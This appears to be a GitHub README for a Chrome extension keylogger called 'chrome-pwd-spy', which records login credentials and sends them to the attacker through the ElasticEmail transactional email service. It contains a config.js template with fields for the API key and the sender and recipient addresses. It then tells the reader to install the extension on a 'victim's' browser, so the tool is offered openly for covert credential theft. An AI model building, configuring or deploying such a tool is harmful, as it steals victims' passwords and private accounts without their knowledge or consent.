 ### #сhrome-pwd-spy

Simplest keylogger, directly records login data to transactional email (elasticemail right now).

##### how to use ->

*js/config.js:*

```javascript
 var config = {
     'apikey' : '', //<--- Your API key there
     'subject' : 'PWD',
     'from': '',  //<--- from
     'fromName' : 'ElasticEmail',
     'to' : '', //<--- to
     'charset': 'utf-8',
     'encodingType': 'base64'
 };
```

Set your credentials, then install extension on your victim's chrome browser and that's it!
